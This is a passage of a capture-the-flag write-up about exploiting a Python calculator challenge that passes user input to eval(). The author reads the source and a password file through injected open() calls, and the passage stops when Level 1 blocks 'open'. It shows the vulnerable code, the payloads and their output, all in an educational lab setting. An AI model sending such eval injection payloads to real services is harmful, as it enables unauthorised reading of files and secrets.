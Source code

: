 ### Level 0

Since we can just send a string to `eval`, the RCE is just automatic.
Let's try getting the source-code (we know the file name by the previous exception):

```python
open('./problem.py').read()
```

And we get [problem.py](https://github.com/Neptunians/utcft-2023-writeup-calculator/blob/main/problem.py).

```python
import random
password = open("password.txt").read()
solution = random.getrandbits(32)

answer = input()
result = eval(answer)

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")
```

There is a password to unlock the next level, let's try getting the password file.

```python
open("password.txt").read()
```

And..

```Result: PuXqj7n4WNZzStnWbtPv.  The correct answer was 4045986092.```

Let's try it:

![](https://i.imgur.com/fZ73o2e.png)

That was easy. Bring more.
 
### Level 1

Let's start trying the same.

```python
open('./problem.py').read()
```

Not that good result.

```
Traceback (most recent call last):
  File "problem.py", line 7, in <module>
    result = eval(answer, {"open": None})
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not callable
```
